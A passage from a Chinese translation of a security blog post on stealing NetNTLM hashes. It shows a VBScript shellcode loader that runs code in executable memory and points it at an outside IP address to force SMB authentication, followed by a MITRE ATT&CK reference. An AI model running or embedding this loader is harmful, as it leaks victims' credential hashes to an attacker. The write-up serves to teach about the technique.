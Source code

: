 ```
&H01, &H05, &H05, &Hff, &Hd0, &H6a, &H05, &Hff, &Hd6, &H33, &Hc0, &H5e, &Hc3, &H33, &Hd2, &Heb, &H10, &Hc1, &Hca, &H0d, _
&H3c, &H61, &H0f, &Hbe, &Hc0, &H7c, &H03, &H83, &He8, &H20, &H03, &Hd0, &H41, &H8a, &H01, &H84, &Hc0, &H75, &Hea, &H8b, _
&Hc2, &Hc3, &H8d, &H41, &Hf8, &Hc3, &H55, &H8b, &Hec, &H83, &Hec, &H14, &H53, &H56, &H57, &H89, &H4d, &Hf4, &H64, &Ha1, _
&H30, &H05, &H05, &H05, &H89, &H45, &Hfc, &H8b, &H45, &Hfc, &H8b, &H40, &H0c, &H8b, &H40, &H14, &H89, &H45, &Hec, &H8b, _
&Hf8, &H8b, &Hcf, &He8, &Hd2, &Hff, &Hff, &Hff, &H8b, &H70, &H18, &H8b, &H3f, &H85, &Hf6, &H74, &H4f, &H8b, &H46, &H3c, _ 
&H8b, &H5c, &H30, &H78, &H85, &Hdb, &H74, &H44, &H8b, &H4c, &H33, &H0c, &H03, &Hce, &He8, &H96, &Hff, &Hff, &Hff, &H8b, _
&H4c, &H33, &H20, &H89, &H45, &Hf8, &H33, &Hc0, &H03, &Hce, &H89, &H4d, &Hf0, &H89, &H45, &Hfc, &H39, &H44, &H33, &H18, _
&H76, &H22, &H8b, &H0c, &H81, &H03, &Hce, &He8, &H75, &Hff, &Hff, &Hff, &H03, &H45, &Hf8, &H39, &H45, &Hf4, &H74, &H1c, _
&H8b, &H45, &Hfc, &H8b, &H4d, &Hf0, &H40, &H89, &H45, &Hfc, &H3b, &H44, &H33, &H18, &H72, &Hde, &H3b, &H7d, &Hec, &H75, _
&H9c, &H33, &Hc0, &H5f, &H5e, &H5b, &Hc9, &Hc3, &H8b, &H4d, &Hfc, &H8b, &H44, &H33, &H24, &H8d, &H04, &H48, &H0f, &Hb7, _
&H0c, &H30, &H8b, &H44, &H33, &H1c, &H8d, &H04, &H88, &H8b, &H04, &H30, &H03, &Hc6, &Heb, &Hdf, &H21, &H05, &H05, &H05, _
&H50, &H05, &H05, &H05, &H6b, &H65, &H72, &H6e, &H65, &H6c, &H33, &H32, &H2e, &H64, &H6c, &H6c, &H05, &H2f, &H2f, &H33, _
&H35, &H2e, &H31, &H36, &H34, &H2e, &H31, &H35, &H33, &H2e, &H32, &H32, &H34, &H2f, &H61, &H61, &H05)

scLocation = DX.VirtualAlloc(0, UBound(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE)

For i =LBound(shellcode) to UBound(shellcode)
    DX.NumPut shellcode(i),scLocation,i
Next

thread = DX.CreateThread (0,0,scLocation,0,0)
```

[https://github . com/OsandaMalith/Shellcodes/blob/master/create file/create file . VBS](https://github.com/OsandaMalith/Shellcodes/blob/master/CreateFile/CreateFile.vbs)

在 Windows 中可能有许多其他方法。你永远不知道！🙂

# 参考

[](https://attack.mitre.org/techniques/T1187/) [## 强制认证

### 服务器消息块(SMB)协议通常在 Windows 网络中用于身份验证和通信…

attack.mitre.org](https://attack.mitre.org/techniques/T1187/) 

*原载于 2017 年 3 月 24 日*[*http://osandamalith.com*](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)*。*

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)